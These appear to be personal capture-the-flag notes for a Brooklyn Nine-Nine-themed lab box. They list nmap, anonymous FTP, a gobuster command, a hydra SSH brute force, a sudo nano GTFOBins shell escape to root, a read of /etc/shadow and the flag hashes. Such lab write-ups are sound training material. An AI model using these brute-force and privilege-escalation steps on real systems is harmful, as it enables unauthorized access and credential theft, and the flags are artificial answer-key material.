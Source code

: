 Webpage

[Back to Table of Contents](../cysec)

- Source code --> clue that photo has steg hidden

Steg
- Photo reveals a password for user holt

NMAP
-ssh,ftp
- ftp server allows anonymous
- text file --> clue that jake has weak password

gobuster
gobuster -u 10.10.153.36 -w /home/aes18/Documents/CS/Tools/Kali/dirbuster/wordlists/directory-list-1.0.txt -x php,js,py,html,exe,zip,jpg,png,conf,db
- nothing

hydra 
- brute force ssh for user jake, password found quickly

foothold on  SSH

sudo -l --> usr/bin/less
/usr/bin/less /root/root.txt --> flag
63a9f0ea7bb98050796b649e85481845

cd /home 
cd jake 
cd holt --> flag ee11cbb19052e40b07aac0ca060c23ee

su holt --> password from before

sudo -l
/usr/bin/nano 

GTFOBins --> nano --> root 
sudo nano
^R^X
reset; sh 1>&0 2>&0

cat /etc/shadow --> amy hash

cd /var/www/html --> see photo.jpg
python3 -m http.server --> download photo.jpg 
stegseek --> "Stillnoob was here" -- rabbit hole





